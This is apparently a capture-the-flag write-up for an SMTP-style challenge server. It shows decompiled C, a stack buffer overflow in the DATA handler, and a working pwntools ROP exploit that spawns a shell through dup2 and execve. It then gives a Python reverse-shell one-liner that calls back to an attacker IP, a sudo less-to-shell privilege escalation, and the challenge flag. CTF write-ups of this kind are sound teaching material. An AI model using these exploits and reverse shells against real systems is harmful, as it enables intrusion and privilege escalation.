


# Secure Multiplexed Transport Protocol

> Retour aux basiques. Pouvez-vous compromettre le serveur hébergeant le service ci-joint ?
>
> tcp://smtp-666mww.inst.malicecyber.com:4444

This challenge is actually quite long.
The first part is to understand the code and find a vulnerability.
Once the vulnerability found (a buffer overflow), we need to exploit it.
Then we get access to the the server, but with lower privileges, and need to become dev on the machine.
This finally gives the flag.

## Understanding the binary

We are given the binary running on the server.
Let's disassemble it with Ghidra.

The `main` function just calls `serve_forever` described below:

```c
void serve_forever(void)
{
  int *piVar1;
  int iVar2;
  socklen_t local_2c;
  sockaddr local_28;
  int local_18;
  int local_14;
  int local_10;
  
  clients = mmap((void *)0x0,12000,3,0x21,-1,0);
  local_10 = 0;
  printf("Server started %s0.0.0.0:%d%s\n",&DAT_080ac145,0x115c,&DAT_080ac140);
  for (local_14 = 0; local_14 < 1000; local_14 = local_14 + 1) {
    *(undefined4 *)((int)clients + local_14 * 0xc + 8) = 0xffffffff;
  }
  start_server(0x115c);
  signal(0x11,(__sighandler_t)0x1);
  do {
    check_sockets();
    local_2c = 0x10;
    piVar1 = (int *)((int)clients + local_10 * 0xc);
    iVar2 = accept(listenfd,&local_28,&local_2c);
    *piVar1 = iVar2;
    if (*(int *)(local_10 * 0xc + (int)clients) < 0) {
      perror("accept() error");
    }
    else {
      puts("Client connected");
      client_slot_id = local_10;
      local_18 = spawn_child();
      if (local_18 == -1) {
        close(*(int *)(local_10 * 0xc + (int)clients));
        *(undefined4 *)((int)clients + local_10 * 0xc + 8) = 0xffffffff;
        perror("spawn_child() error");
      }
    }
    local_10 = 0;
    while (*(int *)((int)clients + local_10 * 0xc + 8) != -1) {
      local_10 = (local_10 + 1) % 1000;
    }
  } while( true );
}
```

This function initialises a listening socket and an empty array of clients in the `start_server` function.

If some client connects (so the program leaves `check_socket`), the connection is accepted and a child spawn in the `spawn_child` function.

```c
__pid_t spawn_child(void)
{
  __pid_t _Var1;
  
  _Var1 = fork();
  if (_Var1 == 0) {
    child_fun(0);
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  return _Var1;
}
```

The child after the fork executes the following `child_fun` function:

```c
void child_fun(void)
{
  int iVar1;
  __pid_t _Var2;
  
  iVar1 = drop_privileges();
  if (iVar1 != 0) {
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  alarm(10);
  signal(0xe,catch_alarm);
  *(undefined4 *)(client_slot_id * 0xc + clients + 8) = 1;
  iVar1 = clients + client_slot_id * 0xc;
  _Var2 = getpid();
  *(__pid_t *)(iVar1 + 4) = _Var2;
  respond();
                    /* WARNING: Subroutine does not return */
  exit(0);
}
```

So the program drops privileges, an alarm is set up to close the connection after 10 seconds and the `respond` function takes over.

```c
void respond(void)
{
  handle_smtp();
  reply(&DAT_080ac1ca);
  close_socket();
  return;
}
```

All important information will be in the `handle_smtp` function.

```c
void handle_smtp(void)
{
  ushort **ppuVar1;
  int iVar2;
  char command [4095];
  undefined local_48d;
  char sender_addr [128];
  undefined auStack1036 [1000];
  undefined *pos0d0a;
  size_t lenread;
  int receive_data;
  int len_data_recvd;
  int i14;
  int stage;
  
  stage = 0;
  local_48d = 0;
  len_data_recvd = 0;
  receive_data = 0;
  reply("220 smtp.dghack.fr SMTP Ready");
  do {
    while( true ) {
      while( true ) {
        do {
          lenread = recv(*(int *)(client_slot_id * 0xc + clients),command,0x1000,0);
          if (lenread == 0) {
            return;
          }
          if (lenread == 0xffffffff) {
            return;
          }
          pos0d0a = (undefined *)memmem(command,lenread,&DAT_080ac220,2);
        } while (pos0d0a == (undefined *)0x0);
        *pos0d0a = 0;
        if (receive_data == 0) break;
        if (command[0] == '.') {
          reply("250 OK");
          receive_data = 0;
        }
        else {
          memcpy(auStack1036 + len_data_recvd,command,lenread - 2);
          len_data_recvd = len_data_recvd + (lenread - 2);
        }
      }
      for (i14 = 0; i14 < 4; i14 = i14 + 1) {
        ppuVar1 = __ctype_b_loc();
        if (((*ppuVar1)[command[i14]] & 0x200) != 0) {
          command[i14] = command[i14] + -0x20;
        }
      }
      iVar2 = strncmp(command,"HELO",4);
      if (iVar2 != 0) break;
      if (stage == 0) {
        reply("250 Ok");
        stage = 1;
      }
      else {
LAB_0804951b:
        reply(
             "503 The server has encountered a bad sequence of commands, or it requires an authentication."
             );
      }
    }
    iVar2 = strncmp(command,"MAIL",4);
    if (iVar2 == 0) {
      if (stage != 1) goto LAB_0804951b;
      iVar2 = parse_sender(command,sender_addr);
      if (0 < iVar2) {
        reply("250 OK");
        stage = 2;
      }
    }
    else {
      iVar2 = strncmp(command,"RCPT",4);
      if (iVar2 == 0) {
        if (stage != 2) goto LAB_0804951b;
        iVar2 = parse_recipient(command,sender_addr);
        if (0 < iVar2) {
          reply("250 OK");
          stage = 3;
        }
      }
      else {
        iVar2 = strncmp(command,"DATA",4);
        if (iVar2 == 0) {
          if (stage != 3) goto LAB_0804951b;
          reply("354 Continue");
          receive_data = 1;
        }
        else {
          iVar2 = strncmp(command,"RSET",4);
          if (iVar2 == 0) {
            reply("250 OK reset");
            stage = 0;
          }
          else {
            iVar2 = strncmp(command,"NOOP",4);
            if (iVar2 == 0) {
              reply("250 OK noop");
            }
            else {
              iVar2 = strncmp(command,"QUIT",4);
              if (iVar2 == 0) {
                reply("221 OK");
                return;
              }
              reply("502 Command Not Implemented");
            }
          }
        }
      }
    }
  } while( true );
}
```

I already renamed variables for an easier reading.
The `stage` variable indicates at which stage of the conversation we are.
At each stage, we can enter some command and will get a response back.
Here are the different commands:
- HELO: possible only if stage is 0, this upgrades the stage to 1.
- MAIL: possible only if stage is 1, this calls the `parse_sender` function and upgrades the stage to 2 if no error occurs.
- RCPT: possible only if stage is 2, this calls the `parse_recipient` function and upgrades the stage to 3 if no error occurs.
- DATA: possible only if stage is 3, in that case it sets `receive_data` to 1. In that mode, commands do no longer take effect and data is saved in the `auStack1036` buffer. We can leave this mode by sending `.`.
- RSET: takes the stage back to 0.
- NOOP: empty command replying ok.
- QUIT: quits the function.

The MAIL command needs to be written `MAIL FROM: <addr>` with a valid email address.

```c
undefined4 parse_sender(char *command,char *out_addr)
{
  char *address;
  char *arobase;
  undefined4 ret;
  
  address = strstr(command,"MAIL FROM: <");
  if ((address + 0xc == (char *)0x0) || (arobase = strchr(command,0x40), arobase == (char *)0x0)) {
    reply("500 Syntax error, bad format");
    ret = 0xffffffff;
  }
  else {
    *arobase = '\0';
    strncpy(out_addr,address + 0xc,0x40);
    ret = 1;
  }
  return ret;
}
```

The `receive_data` actually accept only one destination address:

```c
int parse_recipient(char *command,char *sender_addr)
{
  char *receivermail;
  char *arobase;
  int iVar1;
  
  receivermail = strstr(command,"RCPT TO: <");
  receivermail = receivermail + 10;
  if ((receivermail == (char *)0x0) || (arobase = strchr(command,0x40), arobase == (char *)0x0)) {
    reply("500 Syntax error, bad format");
    iVar1 = -1;
  }
  else {
    iVar1 = strncmp(arobase,"@intradef.gouv.fr",0x11);
    if (iVar1 == 0) {
      *arobase = '\0';
      iVar1 = strncmp(receivermail,"dga-mi-bruz.recrutement.fct",0x1b);
      if (iVar1 == 0) {
        strncpy(sender_addr + 0x40,receivermail,0x40);
        iVar1 = 1;
      }
      else {
        reply("550 No such user here");
        iVar1 = -2;
      }
    }
    else {
      reply("556 Domain does not accept mail");
      iVar1 = -3;
    }
  }
  return iVar1;
}
```

The following Python code passes all those initial checks and lets us send arbitrary data.

```python
from pwn import *

sh = remote("smtp-666mww.inst.malicecyber.com", 4444)
def send_and_receive(message):
    print(message)
    sh.send(message + b"\r\n")
    return sh.recvuntil(b"\r\n").strip()

print(sh.recvuntil(b"220 smtp.dghack.fr SMTP Ready\r\n").decode())
print(send_and_receive(b"HELO"))
print(send_and_receive(b"MAIL FROM: <test@test.com>"))
print(send_and_receive(b"RCPT TO: <dga-mi-bruz.recrutement.fct@intradef.gouv.fr>"))
print(send_and_receive(b"DATA"))
```

## Exploiting the vulnerability

The vulnerability to exploit here is a buffer overflow.
Indeed, we can fill the `auStack1036` with arbitrary data, and no bound check is performed thus we can overflow it.

In order to test locally, I have used gdb and typed in the following instructions to be able to debug the child after fork:

```
set follow-fork-mode child
set detach-on-fork off
```

There are several nice features for our exploit:
- PIE is disabled, so we can very easily craft ROP chains;
- the executable has a lot of already included library functions so no return to lib will be necessary;
- we can include null bytes in our exploit.

First to perform our exploit, I needed to overwrite local variables and find the offset for jumping to a different function.

This Python code performs the rop chain provided in argument:

```python
def execute_rop(ropchain):
    p = b'a' * 1000
    p += b'pos0'
    p += b'lenr'
    p += p32(0) # receive data => end
    p += p32(0) # len data recv
    p += b"iiii"
    p += p32(0) # stage
    p += b"aaaabbbbcccc" # padding

    sh = remote("smtp-666mww.inst.malicecyber.com", 4444)
    print(sh.recvuntil(b"220 smtp.dghack.fr SMTP Ready\r\n").decode())
    print(send_and_receive(b"HELO"))
    print(send_and_receive(b"MAIL FROM: <test@test.com>"))
    print(send_and_receive(b"RCPT TO: <dga-mi-bruz.recrutement.fct@intradef.gouv.fr>"))
    print(send_and_receive(b"DATA"))
    sh.send(p + ropchain + b"\r\n")
    print(send_and_receive(b"QUIT"))
    sh.interactive()
```

Now I just have to build the ROP chain.

### Building the ROP chain

I am using [ROPGadget](https://github.com/JonathanSalwan/ROPgadget) to get a list of all gadgets I can use.

My first try has been to launch a shell on the server:

```python
def write_what_where(what, where):
    p = b""
    p += p32(0x08061d36) # pop edx ; ret
    p += p32(where)
    p += p32(0x080a8f36) # pop eax ; ret
    p += what
    p += p32(0x0808b17d) # mov dword ptr [edx], eax ; ret
    return p

BASE = 0x080d50c0

def binbash():
    p = b""
    p += write_what_where(b'/bin', BASE)
    p += write_what_where(b'//sh', BASE + 4)
    p += write_what_where(p32(0), BASE + 8)

    p += p32(0x08061d5d) # pop ecx ; pop ebx ; ret
    p += p32(BASE+8) # @ .data + 8
    p += p32(BASE) # padding without overwrite ebx
    p += p32(0x08061d36) # pop edx ; ret
    p += p32(BASE+8) # @ .data + 8
    p += p32(0x080a8f36) # pop eax ; ret
    p += p32(11)
    p += p32(0x804e54f) # int 0x80
    return p
```

This is a basic execv shellcode.

It's working: a bash shell is opened server side.
However I don't have access to this shell remotely as my socket connection does not go to this process (and the process uses the normal `stdin` and `stdout` streams).

From browsing on the web, I understood that I need to first redirect the `stdin` and `stdout` streams to my socket.
This can be performed using `dup2` (see the [manual page](https://man7.org/linux/man-pages/man2/dup.2.html)), but sadly this function was not present in the code base.

The `dup2` function works as such: 

> dup2(int oldfd, int newfd);
>
> The dup() system call allocates a new file descriptor that refers to the same open file description as the descriptor oldfd.
> The dup2() system call performs the same task as dup(), but
instead of using the lowest-numbered unused file descriptor, it
uses the file descriptor number specified in newfd.  In other
words, the file descriptor newfd is adjusted so that it now
refers to the same open file description as oldfd.

Thus what I need to do is to change the `stdin` and `stdout` file descriptors (which are 0 and 1) to the socket file descriptor.

I tried to do it automatically by going into the memory to find the reference to the current file descriptor, but for some reason it didn't work.

Instead I just brute forced the value of the file descriptor I am using with my connexion, and created the `dup2` function:

```python
def dup2_known(oldfd, newfd):
    p = b""
    p += p32(0x08061d5d) # pop ecx ; pop ebx ; ret
    p += p32(newfd)
    p += p32(oldfd)
    p += p32(0x080a8f36) # pop eax ; ret
    p += p32(63)
    p += p32(0x804e54f) # int 0x80 ; mov ebx, edx ; ret
    return p
```

This allows me to redirect `stdin`, `stdout` (and `stderr`) to the socket, launch a shell on the server and tada! I'm on the remote server.

```python
KNOWN_FD = 9 # Change this value if not working
ropchain = b""
ropchain += dup2_known(KNOWN_FD, 0)
ropchain += dup2_known(KNOWN_FD, 1)
ropchain += dup2_known(KNOWN_FD, 2)
ropchain += binbash()

execute_rop(ropchain)
```



## Privilege escalation

Now that I have access to the server, I tried to look for the flag.
I can read `/etc/passwd` but that is the only thing I can read, so I guess I will need to become `dev` to get the flag (`dev` is the only directory in `/home`, and becoming root is for the next challenge).

Hopefully, someone was gracious enough to let us execute `less` as `dev`:

```bash
$ sudo -l
Matching Defaults entries for smtp on dga01:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smtp may run the following commands on dga01:
    (dev) NOPASSWD: /usr/bin/less
```

By searching `less` and privilege escalation, I saw that it is possible to launch `vim` with less by typing `v`, then from `vim` we can launch a shell using `!/bin/sh`.

Problem was that I could not use `less` because my shell doesn't have a tty...

So what I did instead was first to launch a reverse shell with tty.
This was quite hard to do, as I can't install stuff and can't even write anything on the disk (so I couldn't download socat for instance).
To do that, I type the following command on remote (replace `<my_ip>` with your ip address):

```bash
export RHOST="<my_ip>";export RPORT=5555;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

And on my laptop (don't forget to configure port redirection if you are behind a NAT):
```bash
nc -lvp 5555
```

This opens a reverse shell on the server on which I can perform the exploit:

```bash
sudo -u dev less /etc/passwd
```

Then type `v`, when `:` appears type `!/bin/sh` and you are `dev`:



Flag: `DGA{058cff4353f7c743f4ddaab9b6c7856f}`

Note: to get a real tty shell, type:
```
export SHELL=bash
export TERM=xterm-256color
stty rows 30 columns 120
```